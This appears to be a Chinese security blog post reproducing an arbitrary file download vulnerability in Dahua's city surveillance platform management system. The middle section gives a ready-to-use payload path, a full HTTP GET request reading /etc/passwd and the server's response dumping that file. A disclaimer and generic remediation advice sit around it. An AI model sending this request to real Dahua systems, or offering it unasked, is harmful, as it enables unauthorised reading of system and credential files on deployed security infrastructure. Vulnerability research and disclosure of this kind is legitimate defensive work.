 #  大华 城市安防监控系统平台管理 任意文件下载漏洞

原创 Henry4E36 [ 才疏学浅的H6 ](javascript:void\(0\);)

**才疏学浅的H6** ![]()

微信号 Sec-Henry

功能介绍 一个在渗透的海洋里摸爬滚打的少年

____

___发表于_

收录于合集

#监控系统 1 个

#漏洞 33 个

#漏洞复现 39 个

#复现 24 个

#文件读取 12 个

**本文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。**

 **漏洞说明**

大华城市安防监控系统平台是一款集视频、报警、存储、管理于一体的综合安防解决方案。该平台支持多种接入方式，包括网络视频、模拟视频、数字视频、IP电话、对讲机等。此外，该平台还支持多种报警方式，包括移动侦测、区域入侵、越线报警、人员聚集等。

大华城市安防监控系统平台管理存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

 **影响版本**

  * 

    
    
     大华城市安防监控系统平台管理

 **漏洞复现**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175535.png)

payload:

  * 

    
    
    /portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd

请求包：  

  *   *   *   *   *   *   *   * 

    
    
    GET /portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd HTTP/1.1Host: ip:portUpgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: close

响应包：  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    HTTP/1.1 200 OKServer: Apache-Coyote/1.1Set-Cookie: JSESSIONID=23A98843BC5D957E2E1F65C0ED593393; Path=/portalContent-disposition: attachment;filename=passwdDate: Sun, 09 Jul 2023 23:57:00 GMTConnection: close  
    root:x:0:0:root:/root:/bin/bashbin:x:1:1:bin:/bin:/sbin/nologindaemon:x:2:2:daemon:/sbin:/sbin/nologinadm:x:3:4:adm:/var/adm:/sbin/nologinlp:x:4:7:lp:/var/spool/lpd:/sbin/nologinsync:x:5:0:sync:/sbin:/bin/syncshutdown:x:6:0:shutdown:/sbin:/sbin/shutdownhalt:x:7:0:halt:/sbin:/sbin/haltmail:x:8:12:mail:/var/spool/mail:/sbin/nologinnews:x:9:13:news:/etc/news:uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologinoperator:x:11:0:operator:/root:/sbin/nologingames:x:12:100:games:/usr/games:/sbin/nologingopher:x:13:30:gopher:/var/gopher:/sbin/nologinftp:x:14:50:FTP User:/var/ftp:/sbin/nologinnobody:x:99:99:Nobody:/:/sbin/nologindbus:x:81:81:System message bus:/:/sbin/nologinvcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologinnscd:x:28:28:NSCD Daemon:/:/sbin/nologinrpm:x:37:37::/var/lib/rpm:/sbin/nologinhaldaemon:x:68:68:HAL daemon:/:/sbin/nologinnetdump:x:34:34:Network Crash Dump user:/var/crash:/bin/bashident:x:98:98::/home/ident:/sbin/nologinsshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologinrpc:x:32:32:Portmapper RPC user:/:/sbin/nologinrpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologinnfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologinmailnull:x:47:47::/var/spool/mqueue:/sbin/nologinsmmsp:x:51:51::/var/spool/mqueue:/sbin/nologinpcap:x:77:77::/var/arpwatch:/sbin/nologinapache:x:48:48:Apache:/var/www:/sbin/nologinsquid:x:23:23::/var/spool/squid:/sbin/nologinwebalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologinxfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologinntp:x:38:38::/etc/ntp:/sbin/nologingdm:x:42:42::/var/gdm:/sbin/nologinhtt:x:100:101:IIIMF Htt:/usr/lib/im:/sbin/nologinpvm:x:24:24::/usr/share/pvm3:/bin/bashcanna:x:39:39:Canna Service User:/var/lib/canna:/sbin/nologinwnn:x:49:49:Wnn Input Server:/var/lib/wnn:/sbin/nologinquagga:x:92:92:Quagga routing suite:/var/run/quagga:/sbin/nologincyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bashdovecot:x:97:97:dovecot:/usr/libexec/dovecot:/sbin/nologinpostfix:x:89:89::/var/spool/postfix:/sbin/nologinmailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologinpostgres:x:26:26:PostgreSQL Server:/var/lib/pgsql:/bin/bashamanda:x:33:6:Amanda user:/var/lib/amanda:/bin/bashfax:x:78:78:mgetty fax spool user:/var/spool/fax:/sbin/nologinnamed:x:25:25:Named:/var/named:/sbin/nologinexim:x:93:93::/var/spool/exim:/sbin/nologinldap:x:55:55:LDAP User:/var/lib/ldap:/bin/falseradiusd:x:95:95:radiusd user:/:/bin/falseradvd:x:75:75:radvd user:/:/sbin/nologinadmin:x:506:506:root:/home/admin:/etc/dh_cli/debugguest:x:507:507:Linux User,,,:/home/guest:/bin/nologinftpuser:x:508:508:Linux User,,,:/home/ftpuser:/bin/nologindh_admin:x:509:509:Linux User,,,:/home/dh_admin:/etc/dh_cli/debugmysql:x:501:501::/home/mysql:/sbin/nologinsystem:x:510:510:Linux User,,,:/home/system:/sbin/nologindss:x:1000:1000:Linux User,,,:/opt/ftp:/sbin/nologinlog:x:1001:1001:Linux User,,,:/log:/bin/sh

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175536.png)

 **修复建议**  

配置文件：在配置文件中限制访问的文件目录，比如 PHP 中 php.ini 配置 open_basedir  
特殊字符过滤：检查用户输入，过滤或转义含有“../”、“..\”、“%00”，“..”，“./”，“#”等跳转目录或字符终止符、截断字符的输入  
合法性判断：严格过滤用户输入字符的合法性，比如文件类型、文件地址、文件内容等  
白名单：白名单限定访问文件的路径、名称及后缀名  

本文章仅用于学习交流，不得用于非法用途

星标加关注，追洞不迷路

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

